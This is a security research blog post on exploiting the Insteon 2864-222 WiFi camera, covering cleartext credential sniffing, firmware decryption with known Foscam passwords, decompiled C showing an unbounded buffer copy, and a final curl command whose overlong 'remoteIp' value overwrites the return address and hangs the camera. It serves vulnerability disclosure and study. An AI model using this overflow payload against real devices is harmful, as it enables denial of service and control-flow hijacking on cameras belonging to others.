 ### Insteon HD WiFI Camera 2864-222

In this brief blogpost we will exploit the Insteon HD Wifi <a href="https://www.amazon.com/Insteon-2864-222-HD-Camera-White/dp/B00Q5XRS8S/ref=sr_1_4?s=hi&ie=UTF8&qid=1522359060&sr=1-4&keywords=insteon+wifi+camera">Camera</a>, model 2864-222.
Without too much talking, let's start.

## Traffic Analysis

According on the Insteon WiFI camera manual, it provides an HTTP web interface, which can be found at http://<ip_camera>:34100.
Though we tried with all the Internet browsers I could think of (Google Chrome, IE, Firefox, Opera and Safari, lynx), we weren't able to log into the camera to see the video stream.
After calling the camera tech support, we were told that the necessary browser plugins to login using a web browser were not maintained anymore. Too bad!

We then opened wireshark to sniff the traffic between the Insteon app and the camera.
As we can see from the picture below, the HTTP interface was still active and responding.


![alt text](https://github.com/badnack/Insteon_2864-222/blob/master/shark.png "Wireshark sniffing")


Note also that, the credentials are transmitted in clear text. 
First bad sign. 


## Firmware Analysis
After some research, we found that: 1) the camera firmware is publicly released, though encrypted and 2) the Insteon camera is a rebrand of Foscam.
With these information in mind, we downloaded the firmware and successfully decrypted it with one of the known Foscam used passwords.
After looking at the contained binary files, it became clear that the camera mounts an ARM architecture.

Once opened with the IDA decompiler, we wanted to find the function parsing the URIs parameters. To do this we looked for the known GET keywords we observed during the traffic sniffing phase.
In particular, we looked for 'usr=root'.
After finding it, we retrieved all the cross-references this string had.

After looking at each one of them, we found the one we were looking for, whose code is reported below.
```c
signed int __fastcall get_value_key(const char *user_URI, const char *key_word, _BYTE *dst_buff)
{
   bool v3; // zf
  signed int counter; // r7
  char *key_val_ptr; // r0
  signed int result; // r0
  const char *assign_ptr; // r5
  signed int assign_len; // r0
  int current_char; // r3
  const char *val_ptr; // r5
  signed int val_len; // r0
  signed int i; // r3
  int c; // r2
  int tmp_buff; // [sp+0h] [bp-98h]

  v3 = key_word == 0;
  if ( key_word )
    v3 = dst_buff == 0;
  if ( v3 )
    return -1;
  counter = 0;
  memset(&tmp_buff, 0, 0x80u);
  strcpy((char *)&tmp_buff, key_word);
  strcat((char *)&tmp_buff, "=");
  key_val_ptr = strstr(user_URI, (const char *)&tmp_buff);
  if ( !key_val_ptr )
  {
    *dst_buff = 0;
    return -1;
  }
  assign_ptr = &key_val_ptr[strlen((const char *)&tmp_buff) - 1];
  assign_len = strlen(assign_ptr);
  do
  {
    if ( counter >= assign_len )
      break;
    current_char = (unsigned __int8)assign_ptr[counter++];
  }
  while ( current_char != '=' );
  val_ptr = &assign_ptr[counter];
  val_len = strlen(val_ptr);
  for ( i = 0; i < val_len; ++i )
  {
    c = (unsigned __int8)val_ptr[i];
    if ( c == '&' )
    {
      dst_buff[i] = 0;
      break;
    }
    dst_buff[i] = c;
  }
  result = 0;
  dst_buff[i] = 0;
  return result;
}
```

As one can see, the above code parses a given URI, searches for the GET key (e.g., 'usr'), skips the '=' characters and finally copy the value of the key in a provided destination buffer.
The problem here, is that the length of the destination buffer is not provided, and potentially one could provide a value enough long to overwrite a the provided destination buffer.
Let's try this out :)

First off, we will retrieve the list of the keywords the firmware accepts, by looking for all the cross-references to the above function, and retrieving the passed keywords.
Overall there are 789 different instances of this function being called, possibly meaning 789 different unique vulnerabilties.
We only tested a bunch of them, and all of them worked. For space reasons, and because the exploits look all very similar, here I will report only one of them.

Among the GET keys accepted by the web-server, there is one called 'remoteIp'.
Once set by the user, a snippet of the function that retrieves its value is represented below:

```c
signed int __fastcall executeCGICmd(int a1, const char *a2)
{
  const char *v2; // r4
  int v3; // r8
  int v5; // r0
  char v6; // [sp+14h] [bp-124h]
  char v7; // [sp+54h] [bp-E4h]
  char v8; // [sp+94h] [bp-A4h]
  char s; // [sp+D4h] [bp-64h]
  int v10; // [sp+114h] [bp-24h]

  v2 = a2;
  v3 = a1;
  if ( !a2 )
    return -1;
  memset(&s, 0, 0x40u);
  memset(&v8, 0, 0x40u);
  memset(&v7, 0, 0x40u);
  v10 = 0;
  sub_2830C(v2, &v7);
  sub_282E8(v2, &s);
  sub_282C4(v2, &v8);
  get_value_key_bug(v2, "remoteIp", &v6);
  if ( !sub_52C44((int)&unk_A5A78, &v6) )
  {
  // additional code...
 ```


As one can see, the destination buffer is as big as 64 bytes, which means that if the value provided for the key 'remoteIp' is longer than 64 characters, the function 'get_value_key' will overflow the buffer v6.
Moreover, as the last assembly instruction overwrites the value of PC through a pop from the stack (as shown below), one can calculate the offset where the LR should reside on the stack, ad overwrite it with a known value.

```asm
loc_2907C
ADD     SP, SP, #0x118
LDMFD   SP!, {R4-R10,PC}
; End of function executeCGICmd
```

In particular, we targeted the 'sleep' function.
The final attack is the following:

```bash
time curl --silent --output /dev/null curl 10.250.250.126:34100/cgi-bin/CGIProxy.fcgi\?cmd=asd\&usr=asd\&pwd=asd\&remoteIp=`python -c "print ('A'*266 + '\x9c\x32')"`
```

The above command, when executed, stalls the camera for no less than 45 second.
During this time the camera stream become unavailable, which for a WiFi camera I would say it's pretty bad.

